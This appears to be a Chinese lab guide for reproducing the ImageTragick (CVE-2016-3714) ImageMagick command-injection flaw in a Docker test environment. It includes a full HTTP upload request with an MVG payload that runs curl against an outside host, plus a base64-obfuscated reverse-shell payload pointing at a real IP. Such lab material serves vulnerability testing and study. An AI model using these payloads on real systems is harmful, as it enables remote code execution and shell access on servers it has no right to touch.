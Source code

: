 # Imagetragick 命令执行漏洞（CVE-2016–3714）

详情见 https://imagetragick.com/ 和 https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html ，不再描述原理。

## 测试方法

一些测试使用的POC：https://github.com/ImageTragick/PoCs

编译及启动测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip/`可见有三个文件：

```bash
├── demo.php # 使用vul.jpg+identify命令测试 
├── upload.php # 支持用户进行上传，并将上传的文件传入PHP的imagick扩展，触发漏洞
└── vul.jpg # 一个简单的POC
```

首先访问`http://your-ip/demo.php`，命令并没有回显，但在docker容器中，已经成功得到`/tmp/success`文件：

![](1.png)

再访问`http://your-ip/upload.php`测试，上传POC文件，数据包如下（**注意，我换了一个POC**）：

```
POST /upload.php HTTP/1.1
Host: your-ip
Content-Length: 321
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydGYwkOC91nnON1ws
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Connection: close

------WebKitFormBoundarydGYwkOC91nnON1ws
Content-Disposition: form-data; name="file_upload"; filename="vul.gif"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarydGYwkOC91nnON1ws--

```

可见，`www.leavesongs.com:8889`已经接收到http请求，说明curl命令执行成功：

![](2.png)

反弹shell POC：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

![](3.png)
